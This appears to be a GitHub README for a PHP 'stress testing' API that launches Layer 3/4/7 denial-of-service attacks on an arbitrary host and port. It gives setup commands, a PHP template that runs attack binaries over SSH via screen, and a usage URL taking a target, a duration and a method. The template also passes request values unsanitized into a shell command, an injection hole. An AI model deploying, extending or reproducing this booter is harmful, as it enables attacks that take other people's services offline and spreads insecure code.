 # stresstesting-api-ssh
An SSH PHP API for Layer 3/4/7 attacks

Install
Ubuntu/Debian:

apt update -y

apt install php php-ssh2 php-fpm apache2 screen -y

service apache2 restart

Upload file api.php to /var/www/html

Usage
Replace Server IP, Username and Password with your server info. Change the API Key Change the methods usage.

Add more methods
if($method == "METHOD"){if(ssh2_exec($connection, "screen -dm -S $host timeout $time ./METHOD $host $port 2 300000 $time")){echo "Attack sent to $host for $time seconds using $method!";}else{die("Ran into a error");}}

You have to find your own methods for this api to work rename them as nesscessary and add more as nesscessary

How to use
http://serverip/api.php?key=superkey&host=[host]&port=[port]&time=[time]&method=[method]

